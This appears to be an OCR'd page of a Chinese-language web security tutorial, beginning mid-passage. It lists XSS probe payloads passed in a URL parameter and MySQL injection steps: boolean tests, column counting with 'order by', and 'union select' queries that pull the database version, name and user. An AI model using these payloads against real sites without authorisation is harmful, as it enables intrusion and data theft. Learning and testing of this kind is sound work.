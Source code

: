采用’单引号测试若单引号也过滤呢?OK,我们这样来测试

```
http://website/index1.php?id=<script>alert(111)</script>
```

使用数字提交,这样测试XSS的漏洞就扩展到了三条有些具体的站点可能还会有很多的问题,例如:

通过构造HTML语句来实现XSS漏洞的挖掘等等.

A: XSS的漏洞挖掘规则

```
http://website/index1.php?id=<script>alert("111")</script>
http://website/index1.php?id=<script>alert('111')</script>
http://website/index1.php?id=<script>alert(111)</script>
http://website/index1.php?id=<body+onload=alert("1111")>
http://website/index1.php?id=<body+onload=alert('1111')>
http://website/index1.php?id=<body+onload=alert(1111)>
http://website/index1.php?id=<img+src=http://OtherWebSite/x.gif+onload=alert("1111")>
http://website/index1.php?id=<img+src=http://OtherWebSite/x.gif+onload=alert('1111')>
http://website/index1.php?id=<img+src=http://OtherWebSite/x.gif+onload=alert(1111)>
http://website/index1.php?id=<"
http://website/index1.php?id=<'
http://website/index1.php?id=<
http://website/index1.php?id=<!--
http://website/index1.php?id=-->
http://website/index1.php?id=<!-- -->
```

使用上面的这些简单漏洞规则,如果模糊测试一些站点的话,是可以找到一些XSS漏洞的,当然这些不是全部的XSS漏洞规则,但是我觉得这些规则比较经典些我测试一些站点的时候,使用这些规则基本上可以找到一些XSS漏洞.

B: SQL Injection

现在,MSSQL的注入技术已经变的很简单,下面的内容我们针对mysql的注入和大家一起讨论下相关的技术,这些技术有简单的,也有一些比较复杂的.另外mysql的注入工具目前没有任何比较强的工具,目前书写一款功能较强的MySQL注入检测工具也基本纳入了2007年的计划内.

下面会针对各种规则,然后对这些规则进行简单的说明,很多规则我相信大家都用过的,不对的地方希望大家给予指针.

下面的这四个语句判断是否存在mysql注入,其中’号类型的测试已经不是很可行,特别在PHP5和mysql5的环境下

```
http://website/index1.php?id=1'
http://website/index1.php?id=1 and 1=1
http://website/index1.php?id=1 and 1=2
http://website/index1.php?id=1 order by 4 //4为判断该表的列数,直到猜测到为止
```

下面的语句来获取mysql的一些信息,这里我们假设我们使用order by语句判断出的列数为4

```
http://website/index1.php?id=1 and 1=1 union select 1,2,3,4
http://website/index1.php?id=1 and 1=1 union select version(),database(),user(),4
http://website/index1.php?id=1 and 1=1 union select 1/*
http://website/index1.php?id=1 and 1=1 union select version()/*
http://website/index1.php?id=1 and 1=1 union select databse()/*
```
